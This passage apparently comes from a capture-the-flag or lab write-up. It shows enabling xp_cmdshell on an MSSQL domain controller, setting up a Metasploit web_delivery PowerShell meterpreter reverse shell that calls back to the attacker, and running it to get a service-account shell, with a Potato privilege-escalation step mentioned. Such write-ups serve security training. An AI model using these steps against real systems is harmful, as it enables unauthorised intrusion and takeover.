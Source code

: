 This user can enable `xp_cmdshell` so I use this simple command to enable it and now I should be able to run any command on this domain controller via MSSQL.
```
enable_xp_cmdshell
```
![02a3882f06ea1f841c4926df5cd0ecaf.png](/resources/02a3882f06ea1f841c4926df5cd0ecaf.png)

I will create a powershell reverse shell payload with web delivery module from metasploit framework.
```
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
set lport 443
set lhost tun0
run
```
![2879d62eae81e069f0180a8e6cf245de.png](/resources/2879d62eae81e069f0180a8e6cf245de.png)

I simply parse the command like this and now I have shell as "svc_mssql" user on this machine and it even has SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege which can be exploited with Potato and get a SYSTEM shell.
```
xp_cmdshell powershell.exe...<SNIP>
```
![46c1b630b0d9683ac133c0dfd4b07011.png](/resources/46c1b630b0d9683ac133c0dfd4b07011.png)

